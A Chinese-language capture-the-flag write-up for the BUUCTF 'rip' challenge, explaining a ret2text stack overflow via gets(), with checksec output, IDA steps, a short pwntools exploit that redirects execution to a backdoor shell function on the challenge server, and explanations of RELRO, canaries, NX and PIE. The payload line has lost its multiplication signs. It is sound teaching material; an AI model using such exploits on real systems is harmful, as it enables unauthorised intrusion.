









# [[Buuctf]rip](https://buuoj.cn/challenges#rip)

## 知识点

- [ret2text](https://www.jianshu.com/p/045f274554cd)

## 解题步骤
1. 用`nc`连接试一试   

     


2. `file pwn1`查看`pwn1`的文件类型，发现下载的`pwn1`为一个`elf`文件
3. 安装`pwntools`
```bash
sudo pip3 install pwntools
```
4. 使用`Checksec`检查一下文件的属性

```bash
checksec ./pwn1

Arch:     amd64-64-little 
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments

```
- 这个程序没有进行任何保护

5. 使用`64`位对应的`IDA`打开程序    
6. `view->open subview->Strings/shift+F12`打开字符串窗口，发现有`system`,`/bin/sh`,对于这两个应该敏感起来，因为`system（/bin/sh）`这句代码能让我们直接获取`shell`           

     

7. 双击`bin/sh`跟进，然后安装`ctrl+x`查看一下哪里调用了这个字符串，点击`ok`跳转    

       

     

- 这也就是题目提供的后门函数(`shell`函数)，其对应的地址为`0000000000401186`      

     

7. `F5`查看`main`函数的伪代码,并没有调用`fun`函数                 

      

- 发现有**gets**函数
    - `gets`函数的缓冲区是由用户本身提供，由于用户无法指定一次最多可读入多少字节，导致此函数存在巨大安全隐患。换句话来说，**就是`gets`若没有遇到 `\n` 结束，则会无限读取，没有上限**。

8. `char s[15]`，或者双击`s`，发现`s`为15字节      

       

9. 但是`s`后面还跟着`db 8 dup(?)`    

```
db 表示数据的类型是字节型
dup() 重复定义圆括号中指定的初值，次数由前面的数值决定
?： 只分配存储空间，不指定初值
```
- 因此 最后偏移量为 ： 15+8 = 23

10. 编写`exp`，进行栈溢出覆盖    
```python
from pwn import *

p = remote("node4.buuoj.cn",27296) # 会连接到我们指定的地址及端口

payload=b'A'15+b'B'8+p64(0x401186+1) # 进行填充

# 15个A用来填充s，再发送8个字节用来填充b
# p32() 可以让我们转换整数到小端序格式. p32 转换4字节. p64 和 p16 则分别转换 8 字节 和 2 字节
# +1是为了堆栈平衡
p.sendline(payload)
# sendline(payload) 发送payload，并进行换行（末尾\n）
p.interactive()
#  c.interactive() 允许我们在终端里将命令传送到远程服务器.
```

11. 运行完`exp`后，进入了`shell`，就可以`ls`看到`flag`    

      


## [checksec](https://github.com/slimm609/checksec.sh)

- Checksec 是一个 bash 脚本，用于检查可执行文件（如 PIE、RELRO、Canaries、ASLR、Fortify Source）的属性
- 示例
```bash
Arch:     amd64-64-little 
RELRO:    Partial RELRO 
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
### Arch

- 程序架构信息，判断是64位还是32位，exp编写的时候是p64还是p32

### RELRO(Relocation Read-Onl)

- `Relocation Read-Onl`:重定位表只读
    - 重定位表即 `.got（Global Offset Table）` 和 `.plt` 两个表
- `RELRO`分成两种：`Partial RELRO`和`FULL RELRO`
    - `Partial（部分）RELRO`：则代表对`GOT`表具有写权限，容易受到攻击，例如攻击者可以`atoi.got`为`system.plt`,进而输入`/bin/sh\x00`获得`shell`
    - `FULL(完全) RELRO`：使整个`GOT`只读，从而无法被覆盖，但这样会大大增加程序的启动时间，因为程序在启动之前需要解析所有的符号。
- `Relocation Read-Onl`使用
```bash
gcc -o hello test.c //默认情况下，是Partial RELRO
gcc -z norelro -o hello test.c // 关闭，即No RELRO
gcc -z lazy -o hello test.c // 部分开启，即Partial RELRO
gcc -z now -o hello test.c // 全部开启，即Full RELRO
```

### Stack(Stack-canary)

- 保护栈溢出
- 在初始化一个栈帧时在栈底（`stack overflow` 发生的高位区域的尾部）设置一个随机的 `canary` 值，当函数返回之时检测 `canary` 的值是否经过了改变，以此来判断 `stack/buffer overflow` 是否发生，若改变则说明栈溢出发生，程序走另一个流程结束，以免漏洞利用成功。 因此我们需要获取 `Canary` 的值，或者防止触发 `stack_chk_fail` 函数，或是利用此函数。

### NX

- `NX`即`No-eXecute`（不可执行）的意思，`NX（DEP）`的基本原理是**将数据所在内存页标识为不可执行**，当程序溢出成功转入 shellcode 时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。     

      

- `NX`使用
```bash
gcc -o test test.c                   // 默认情况下，开启NX保护
gcc -z execstack -o test test.c      // 禁用NX保护
gcc -z noexecstack -o test test.c    // 开启NX保护
```

### PIE(Position-Independent Executable)

- 与`ASLR(address space layout randomization,地址空间分布随机化)`技术类似
- `ASLR`将程序运行时的堆栈以及共享库的**加载地址随机化**，而`PIE`则在编译时将**程序编译为位置无关**，即程序运行时各个段（如代码段等）加载的虚拟地址也是在装载时才确定。攻击者将对程序的内存布局一无所知，传统改写GOT表项也难以进行，因为攻击者不能获得程序的.got段的虚地址。
- ASLR和DEP配合使用，能有效阻止攻击者在堆栈上运行恶意代码，可以防范基于Ret2libc方式的针对DEP的攻击
- `PIE使用`
```bash
gcc -pie -o test test.c        // 开启PIE
gcc -no-pie -o test test.c        // 关闭PIE
```
### RWX(read-write-executable)

- `Has RWX segments`表示`源程序几乎没有开启任何保护，并且有可读，可写，可执行段`

## 栈

### C语言内存分布
- `Stack(栈)`：用于静态分配中的存放局部变量
- `BSS`：存储全局变量
- `Heap`：则负责存储动态分配的内存空间，如`c`语言中的`malloc/free`分配内存时，就会分配到`Heap`区域
- 而Heap与Stack中间的内存空间，则是共享的一片内存空间，Heap从低地址向高地址分配空间，Stack从高地址向低地址分配空间，从而完整高效的使用了这一片内存空间

### 栈中的内存分布与工作原理


## 参考资料

- [(buuctf) - pwn入门部分wp - rip -- pwn1_sctf_2016](https://www.cnblogs.com/Jlay/p/pwn_wp1.html)
- [BUUCTF (PWN) RIP详细分析](https://blog.csdn.net/qy201706/article/details/105397766)
- [Linux PWN（一）漏洞缓解机制&checksec](http://www.gandalf.site/2019/03/linux-pwn.html)
- [checksec](https://github.com/slimm609/checksec.sh)
- [PWN-最新checksec的安装和使用](https://blog.csdn.net/qq_43430261/article/details/105516051)
- [pwn-题型专栏](https://blog.csdn.net/qq_51032807/article/details/112545011)
- [详细的栈的工作原理以及rip的解题过程](https://www.cnblogs.com/refrain-again/p/15001283.html)
- [一步一步学pwntools](https://bbs.pediy.com/thread-247217.htm)